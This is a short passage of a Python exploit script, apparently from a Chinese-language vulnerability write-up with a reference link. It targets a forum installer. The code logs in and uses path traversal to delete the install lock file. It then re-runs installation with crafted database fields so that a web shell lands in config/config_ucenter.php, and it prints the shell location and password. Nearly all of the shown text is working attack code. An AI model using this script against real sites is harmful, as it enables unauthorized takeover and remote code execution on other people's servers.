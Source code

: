 ```python
        'dbinfo[dbhost]': db_host,
        'dbinfo[dbname]': db_name,
        'dbinfo[dbuser]': db_user,
        'dbinfo[dbpw]': db_pw,
        'dbinfo[tablepre]': table_prefix,
        'dbinfo[adminemail]': 'admin@admin.com',
        'admininfo[username]': 'admin',
        'admininfo[password]': 'admin',
        'admininfo[password2]': 'admin',
        'admininfo[email]': 'admin@admin.com',
    }
    r = sess.post(install_url, data=data)
    if '建立数据表 CREATE TABLE' not in r.text:
        print('write shell failed')
        return False
    print('shell: {}/config/config_ucenter.php'.format(target))
    print('password: {}'.format(shell_password))


if __name__ == '__main__':
    login()
    form_hash = get_form_hash()
    if form_hash:
        delete(form_hash, '../../../data/install.lock')
        getshell()
    else:
        print('failed')
```

参考链接

https://xz.aliyun.com/t/7492#toc-7